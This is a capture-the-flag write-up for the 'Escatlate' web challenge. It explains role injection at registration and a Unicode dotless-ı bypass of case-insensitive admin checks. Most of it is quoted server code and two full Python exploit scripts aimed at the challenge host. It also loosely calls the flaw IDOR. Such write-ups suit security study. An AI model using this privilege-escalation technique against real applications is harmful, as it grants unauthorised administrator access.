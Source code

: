 ## Challenge

**Title 1**
WEB // 😺 Escatlate (flag #1)

**Description 1**
Look! Kitties! // careful, this app is resetting every 15 mintutes
🔗 https://escatlate-52bc47e034fa.1753ctf.com
💾 https://get.1753ctf.com/escatlate/src?s=tB81ISR3

**Title 2**
WEB // 🙀 Escatlate (flag #2)

**Description 2**
Look! More kitties! // careful, this app is resetting every 15 mintutes
🔗 https://escatlate-52bc47e034fa.1753ctf.com
💾 https://get.1753ctf.com/escatlate/src?s=tB81ISR3

## Solution (Flag 1)

I exploited a simple IDOR vulnerability during user registration, which allowed me to inject a role into the request.

The code responsible for the vulnerability that allows role injection:
```javascript
app.post('/api/register', (req, res) => {

    const existingUser = users.find(u => u.username == req.body.username);
    if(existingUser)
        return res.status(400).send('User already exists');

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');

    const user = {
        username: req.body.username.substring(0, 20),
        password: req.body.password.substring(0, 20),
        token: crypto.randomBytes(32).toString('hex'),
        role: req.body.role.substring(0, 20) || 'user'
    }

    users.push(user);

    res.json(user);
})
```

The code that allows us to obtain the flag:
``` javascript
app.get('/api/message', (req, res) => {
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
    
    if(req.user.role.toUpperCase() === 'MODERATOR')
        return res.json({ message: `Hi Mod! Your flag is ${process.env.MODERATOR_FLAG}` });

    res.json({ message: `Hello ${req.user.username}` });
})
```

Authentication works as a middleware by passing x-token http header:

```javascript
app.use((req, res, next) => {
    const token = req.headers["x-token"];
    const user = users.find(u => u.token == token);

    if(!user)
        return res.status(401).send('Unauthorized');

    req.user = user;
    next();
})
```

I used the following Python script to automate the exploitation process:

- Register a new user with a known password (password123) and role moderator.
- If registration succeeds, extract the token from the response.
- Use the token to access a protected endpoint and retrieve the flag.

```python
import requests
import random
import string

def generate_username(prefix="user", length=6):
    suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))
    return f"{prefix}_{suffix}"
    
username = generate_username()
password = "password123"

print(f"User {username}:{password}")

# Register contants
url_register = "https://escatlate-52bc47e034fa.1753ctf.com/api/register"
register_payload = {
    "username": username,
    "password": password,
    "role": "moderator"
}

headers_register = {
    "Content-Type": "application/json",
}

# Send register request
response = requests.post(url_register, json=register_payload, headers=headers_register)
response_data = response.json()

# Get token from response
token = response_data.get("token")
print(f"Token: {token}")

# If getting token is succed get a flag
if token:
    url_message = "https://escatlate-52bc47e034fa.1753ctf.com/api/message"
    headers_message = {
        "X-Token": token
    }

    response_msg = requests.get(url_message, headers=headers_message)
    print("Response from: /api/message:")
    print(response_msg.text)
else:
    print("[Error] No token provided.")

```

## Solution (Flag 2)

To get the second flag, we need to log in as an admin, but this is complicated by the following code during registration:

```javascript
    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');
```

Another important piece of code is the one responsible for role verification when attempting to retrieve the message:

```javascript
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
```

I used the dotless 'ı' character to bypass these validations (https://www.ascii-code.com/character/%C4%B1). The role name I sent was "adm\u0131n". This allowed me to bypass the comparison with "admin" after applying the toLowerCase function. However, at the same time, the second validation, which used the toUpperCase function, converted the character to a regular 'I', and the comparison with "ADMIN" succeeded.

Here’s the exploit:

```python
import requests
import random
import string

def generate_username(prefix="user", length=6):
    suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))
    return f"{prefix}_{suffix}"
    
username = generate_username()
password = "password123"

print(f"User {username}:{password}")

# Register contants
url_register = "https://escatlate-52bc47e034fa.1753ctf.com/api/register"
register_payload = {
    "username": username,
    "password": password,
    "role": "adm\u0131n"
}

headers_register = {
    "Content-Type": "application/json",
}

# Send register request
response = requests.post(url_register, json=register_payload, headers=headers_register)
response_data = response.json()

# Get token from response
token = response_data.get("token")
print(f"Token: {token}")

# If getting token is succed get a flag
if token:
    url_message = "https://escatlate-52bc47e034fa.1753ctf.com/api/message"
    headers_message = {
        "X-Token": token
    }

    response_msg = requests.get(url_message, headers=headers_message)
    print("Response from: /api/message:")
    print(response_msg.text)
else:
    print("[Error] No token provided.")

```
